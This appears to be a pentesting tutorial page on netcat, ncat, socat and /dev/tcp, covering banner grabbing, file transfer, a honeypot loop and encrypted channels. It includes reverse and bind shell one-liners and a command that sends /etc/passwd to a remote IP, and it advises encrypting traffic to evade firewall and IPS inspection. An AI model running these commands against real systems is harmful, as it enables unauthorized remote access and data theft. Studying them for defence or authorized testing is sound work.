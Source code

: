 # Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```
nc -v 192.168.0.10 1337 < xpto.txt
```

### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

## Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><img src="../.gitbook/assets/utitilies.png" alt=""><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2
